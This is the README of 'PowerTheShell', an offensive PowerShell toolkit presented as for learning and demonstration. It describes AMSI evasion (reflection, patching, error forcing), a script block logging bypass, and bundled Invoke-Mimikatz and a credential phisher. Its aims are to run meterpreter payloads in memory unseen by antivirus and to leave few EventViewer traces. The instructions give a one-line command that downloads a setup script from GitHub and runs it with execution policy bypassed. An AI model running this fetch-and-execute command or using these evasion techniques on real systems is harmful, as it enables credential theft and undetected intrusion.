 # PowerTheShell

This repository was created for learning / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize trace in EventViewer

The main script Setup.ps1 performs the necessary commands for protecting our operational security (not entirely):

1. Script block logging bypass by Ryan Cobb (@cobbr_io)

The main script Setup.ps1 plus AMSI-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.
The command necessary for Script block logging bypass are also obfuscated not for evade AMSI but for leave minimum trace on EventViewer. 

This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Powershell Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. The customization performed do not compromise the signature of the scripts.

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Setup.ps1'))"
